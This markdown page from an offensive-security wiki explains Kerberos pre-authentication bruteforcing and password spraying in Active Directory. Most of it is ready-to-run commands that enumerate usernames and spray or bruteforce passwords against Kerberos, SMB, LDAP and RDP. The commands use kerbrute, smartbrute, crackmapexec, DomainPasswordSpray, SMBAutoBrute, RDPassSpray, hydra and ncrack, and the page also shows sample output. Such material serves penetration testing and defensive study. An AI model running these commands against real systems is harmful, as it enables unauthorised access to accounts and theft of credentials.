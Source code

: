 ```yaml
---
description: >-
  Password spraying refers to the attack method that takes a large number of
  usernames and loops them with a single password.
---
```


# Password spraying

{% hint style="info" %}
The builtin Administrator account \(RID:500\) cannot be locked out of the system no matter how many failed logon attempts it accumulates.
{% endhint %}

## **Kerberos pre-auth bruteforcing**

The Kerberos authentication protocol works with tickets in order to grant access. A ST \(Service Ticket\) can be obtained by presenting a TGT \(Ticket Granting Ticket\). That prior TGT can only be obtained by validating a first step named "pre-authentication".

The pre-authentication requires the requesting user to supply its secret key \(DES, RC4, AES128 or AES256\) derived from his password. An attacker knowing that secret key doesn't need knowledge of the actual password to obtain tickets. This is called [pass-the-key](https://www.thehacker.recipes/ad-ds/movement/kerberos/pass-the-key).

Sometimes, the pre-authentication is disabled on some accounts. The attacker can then obtain information encrypted with the account's key. While the obtained TGT cannot be used since it's encrypted with a key the attacker has no knowledge of, the encrypted information can be used to bruteforce the account's password. This is called [ASREProast](https://www.thehacker.recipes/ad-ds/movement/kerberos/asreproast).

Last but not least, the pre-authentication step can be bruteforced. This type of [credential bruteforcing](https://www.thehacker.recipes/ad-ds/movement/credentials/bruteforcing) is way faster and stealthier than other bruteforcing methods relying on NTLM. Pre-authentication bruteforcing can even be faster by using UDP as the transport protocol, hence requiring less frames to be sent.

{% hint style="info" %}
Kerberos pre-authentication errors are not logged in Active Directory with a normal **Logon failure event \(4625\)**, but rather with specific logs to **Kerberos pre-authentication failure \(4771\)**.
{% endhint %}

{% embed url="https://github.com/ropnop/kerbrute" %}

\*\*\*\*

### Username bruteforce

```text
 ./kerbrute_linux_amd64 userenum -d domain.local --dc 10.10.10.10 usernames.txt
```

### Password bruteforce

```text
./kerbrute_linux_amd64 bruteuser -d domain.local --dc 10.10.10.10 rockyou.txt username
```

### Password spray

```text
root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt Password123
root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt rockyou.txt
root@kali:~$ ./kerbrute_linux_amd64 passwordspray -d domain.local --dc 10.10.10.10 domain_users.txt '123456' -v --delay 100 -o kerbrute-passwordspray-123456.log
```

[smartbrute](https://github.com/ShutdownRepo/smartbrute) \(Python\) can be used to bruteforce credentials through the Kerberos pre-authentication. The smartbrute utility can be used in a `brute` mode \(standard bruteforcing features\) or in a `smart` mode \(requires prior knowledge of a low-priv user credentials, but operates LDAP enumeration and avoid locking out accounts, fetches the users list and so on\).

```text
# brute mode, users and passwords lists supplied
smartbrute.py brute -bU $USER_LIST -bP $PASSWORD_LIST kerberos -d $DOMAIN
​
# smart mode, valid credentials supplied for enumeration
smartbrute.py smart -bP $PASSWORD_LIST ntlm -d $DOMAIN -u $USER -p $PASSWORD kerberos
```



### **​​Spray a pre-generated passwords list**

Using `crackmapexec` and `mp64` to generate passwords and spray them against SMB services on the network.

```text
crackmapexec smb 10.0.0.1/24 -u Administrator -p `(./mp64.bin Pass@wor?l?a)`
```

Using `DomainPasswordSpray` to spray a password against all users of a domain.

```text
# https://github.com/dafthack/DomainPasswordSpray
Invoke-DomainPasswordSpray -Password Summer2021!
# /!\ be careful with the account lockout !
Invoke-DomainPasswordSpray -UserList users.txt -Domain domain-name -PasswordList passlist.txt -OutFile sprayed-creds.txt
```

Using `SMBAutoBrute`.

```text
Invoke-SMBAutoBrute -UserList "C:\ProgramData\admins.txt" -PasswordList "Password1, Welcome1, 1qazXDR%+" -LockoutThreshold 5 -ShowVerbose
```

\*\*\*\*

### **Spray passwords against the RDP service**

Using RDPassSpray to target RDP services.

```text
git clone https://github.com/xFreed0m/RDPassSpray
python3 RDPassSpray.py -u [USERNAME] -p [PASSWORD] -d [DOMAIN] -t [TARGET IP]
```

Using hydra and ncrack to target RDP services.

```text
hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://10.10.10.10
ncrack –connection-limit 1 -vv --user administrator -P password-file.txt rdp://10.10.10.10
```

\*\*\*\*

### **BadPwdCount attribute**

{% hint style="info" %}
The number of times the user tried to log on to the account using an incorrect password. A value of 0 indicates that the value is unknown.
{% endhint %}

```text
$ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 --users
LDAP        10.0.2.11       389    dc01       Guest      badpwdcount: 0 pwdLastSet: <never>
LDAP        10.0.2.11       389    dc01       krbtgt     badpwdcount: 0 pwdLastSet: <never>
```

\*\*\*\*

